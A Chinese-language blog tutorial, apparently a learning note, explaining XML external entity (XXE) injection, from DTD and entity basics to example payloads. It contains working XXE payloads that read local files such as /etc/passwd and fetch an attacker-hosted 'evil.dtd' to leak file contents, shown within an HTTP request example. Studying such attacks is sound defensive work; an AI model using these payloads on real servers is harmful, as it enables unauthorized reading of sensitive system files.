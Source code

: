 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      哇，正则你好犀利               # 标题 
subtitle:   正则表达式的美丽
date:       2020-03-27              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00 XXE他是谁？
XXE：XML external entity injection,全称外部实体注入，也就是注入漏洞，下面大概展示一下：
<ag> 用户输入 </ag>   此时我们的用户输入如果为 111</ag><ag>222,那么这个语句为```<ag>111</ag><ag>222</ag>```，此时超出预期用户输入，便就是XML注入。
我们的XXE要注重于外部实体注入，那么先学习一下相关基础知识：

XML 文档有自己的一个格式规范，这个格式规范是由一个叫做 DTD（document type definition） 的东西控制的，他就是长得下面这个样子：
```
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE foo [
<!ELEMENT x ANY>
<!ENTITY xxe "jjjj">
]>
<x>&xxe;<x>
```
这里定义了XML 的根元素foo，然后下面有子元素x，其中实体为xxe。
当我们使用的时候只需添加一行
```<x>&xxe；</x>```即可引用，输出的时候&xxe;被替换为jjjj。

这里就要说一下啦外部实体和内部实体，以上就是内部实体了，外部实体为以下例子：
```<!ENTITY  xxe SYSTEM "file://c:/test.dtd">```  
引用外部实体的话，我们一旦对资源有修改都会自动更新，还有一种方法引用公用DTD
```
<!DOCTYPE   根元素名  PUBLIC “DTD标识名” “公用的DTD的URI”>
```

这里简单拓展一下通用实体和参数实体：
通用实体：用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用，```ps：<!ENTITY xxe "jjjj">···<x>&xxe;</x>```
参数实体：
(1)使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用 %实体名; 引用
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用
例子如下：
```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```
学习到这里我们就应该知道实体构造是个怎么回事了，接下来根据表哥的例子来学习一波：
1、payload：
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 
<roottag>&all;</roottag>

其中evil.dtd内容为：
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">

```
这里CDATA标志能让中括号里面的内容当做元素字符数据的常量部分，而不是xml标记，读取文件中的特殊字符。另外如果直接读取文件中的内容可以使用这个用法：  
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY goodies SYSTEM "file:///d:/test.txt">  
]> 
<roottag>&goodies;</roottag>
```
XXE会出现的地方：
在现在前后端分离的时代，一般来说后端负责接收要传入的数据，然后经过一系列的黑盒运算之后将结果以json格式返回给前端，我们的后端可以使api接口也可以是后台代码，xxe经常出现在api接口能解析客户端传过来的xml，而且能直接外部实体引用，例子简单说一下：
我们发出一个http请求后：
```
POST /xxxx HTTP/1.1
Host: xxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept:xxxxxx

<?xml version="1.0" encoding="utf-8"?> 
<roottag>XML</roottag>
```
服务器的XML处理器解析后返回：添加成功！！！
我们尝试传入恶意代码：
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY goodies SYSTEM "/etc/passwd">  
]> 
<roottag>&goodies;</roottag>
```
那么这样服务器的XML处理器解析后，如果没有经过严格的安全审核，会导致服务器端返回敏感文件信息，危害性大。



   
继续 研读：：：：



